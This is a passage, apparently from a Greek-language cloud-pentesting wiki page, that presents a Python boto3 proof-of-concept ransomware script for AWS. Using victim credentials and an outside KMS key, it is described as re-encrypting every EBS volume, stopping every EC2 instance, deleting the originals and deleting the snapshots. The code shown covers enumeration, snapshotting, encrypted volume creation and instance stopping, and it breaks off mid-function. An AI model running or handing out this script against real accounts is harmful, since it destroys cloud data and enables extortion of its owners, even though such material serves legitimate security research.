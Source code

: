 ![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

Αυτό είναι το python script που χρησιμοποιείται. Παίρνει διαπιστευτήρια AWS για έναν λογαριασμό 'θύματος' και μια δημόσια διαθέσιμη τιμή ARN AWS για το κλειδί που θα χρησιμοποιηθεί για την κρυπτογράφηση. Το script θα δημιουργήσει κρυπτογραφημένα αντίγραφα ΟΛΩΝ των διαθέσιμων όγκων EBS που είναι επισυναπτόμενοι σε ΟΛΕΣ τις EC2 instances στον στοχευμένο λογαριασμό AWS, στη συνέχεια θα σταματήσει κάθε EC2 instance, θα αποσυνδέσει τους αρχικούς όγκους EBS, θα τους διαγράψει και τελικά θα διαγράψει όλα τα snapshots που χρησιμοποιήθηκαν κατά τη διαδικασία. Αυτό θα αφήσει μόνο κρυπτογραφημένους όγκους EBS στον στοχευμένο λογαριασμό 'θύματος'. ΧΡΗΣΙΜΟΠΟΙΗΣΕ ΑΥΤΟ ΤΟ SCRIPT ΜΟΝΟ ΣΕ ΠΕΡΙΒΑΛΛΟΝ ΔΟΚΙΜΗΣ, ΕΙΝΑΙ ΑΠΟΤΕΛΕΣΜΑΤΙΚΟ ΚΑΙ ΘΑ ΔΙΑΓΡΑΨΕΙ ΟΛΟΥΣ ΤΟΥΣ ΑΡΧΙΚΟΥΣ ΟΓΚΟΥΣ EBS. Μπορείς να τους ανακτήσεις χρησιμοποιώντας το χρησιμοποιούμενο κλειδί KMS και να τους επαναφέρεις στην αρχική τους κατάσταση μέσω snapshots, αλλά θέλω απλώς να σε ενημερώσω ότι αυτό είναι ένα PoC ransomware στο τέλος της ημέρας.
```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
instances = ec2_client.describe_instances()
instance_volumes = {}
for reservation in instances['Reservations']:
for instance in reservation['Instances']:
instance_id = instance['InstanceId']
volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
instance_volumes[instance_id] = volumes
return instance_volumes

def snapshot_volumes(ec2_client, volumes):
snapshot_ids = []
for volume_id in volumes:
snapshot = ec2_client.create_snapshot(VolumeId=volume_id)
snapshot_ids.append(snapshot['SnapshotId'])
return snapshot_ids

def wait_for_snapshots(ec2_client, snapshot_ids):
for snapshot_id in snapshot_ids:
ec2_client.get_waiter('snapshot_completed').wait(SnapshotIds=[snapshot_id])

def create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn):
new_volume_ids = []
for snapshot_id in snapshot_ids:
snapshot_info = ec2_client.describe_snapshots(SnapshotIds=[snapshot_id])['Snapshots'][0]
volume_id = snapshot_info['VolumeId']
volume_info = ec2_client.describe_volumes(VolumeIds=[volume_id])['Volumes'][0]
availability_zone = volume_info['AvailabilityZone']

volume = ec2_client.create_volume(SnapshotId=snapshot_id, AvailabilityZone=availability_zone,
Encrypted=True, KmsKeyId=kms_key_arn)
new_volume_ids.append(volume['VolumeId'])
return new_volume_ids

def stop_instances(ec2_client, instance_ids):
for instance_id in instance_ids:
try:
instance_description = ec2_client.describe_instances(InstanceIds=[instance_id])
instance_state = instance_description['Reservations'][0]['Instances'][0]['State']['Name']

if instance_state == 'running':
ec2_client.stop_instances(InstanceIds=[instance_id])
print(f"Stopping instance: {instance_id}")
ec2_client.get_waiter('instance_stopped').wait(InstanceIds=[instance_id])
print(f"Instance {instance_id} stopped.")
else:
```